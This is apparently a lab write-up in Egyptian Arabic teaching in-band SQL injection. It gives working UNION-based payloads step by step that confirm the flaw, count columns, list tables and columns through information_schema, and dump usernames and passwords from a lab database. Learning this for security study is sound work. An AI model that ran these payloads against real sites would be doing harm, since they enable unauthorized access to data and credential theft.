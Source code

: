 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


  
</details>
